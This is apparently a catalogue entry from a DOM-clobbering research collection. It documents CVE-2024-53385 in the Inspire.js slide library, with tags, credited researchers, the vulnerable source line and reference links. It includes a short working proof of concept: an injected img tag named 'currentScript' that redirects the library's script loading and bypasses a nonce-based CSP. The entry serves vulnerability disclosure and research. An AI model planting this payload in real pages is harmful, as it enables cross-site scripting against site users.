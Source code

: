 ```yaml
---
description: Lean, hackable, extensible slide deck framework. Create basic slides by just writing HTML and CSS, do fancy custom stuff with JS, the sky is the limit!
github: LeaVerou/inspire.js
gadgets:
  Latest:
    cve: CVE-2024-53385
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - src-attr
      - name-attr
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: The [Inspire.js](https://inspirejs.org/) library uses the `document.currentScript` property to load additional scripts.
        code: |
          <!-- user input -->
          <img name="currentScript" src="[current-location]/assets/xss/">

          <script nonce="secret" src="https://inspirejs.org/inspire.js"></script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/LeaVerou/inspire.js/blob/b09b13dbd3ddc6539dea08bf6b91af77e6e0bdc2/inspire.js#L4">https://github.com/LeaVerou/inspire.js/blob/b09b13dbd3ddc6539dea08bf6b91af77e6e0bdc2/inspire.js#L4</a>

      ```javascript
      let url = new URL("./inspire.mjs", document.currentScript ? document.currentScript.src : "https://inspire.js.org/");
      ```
    links:
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/inspire.js.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```

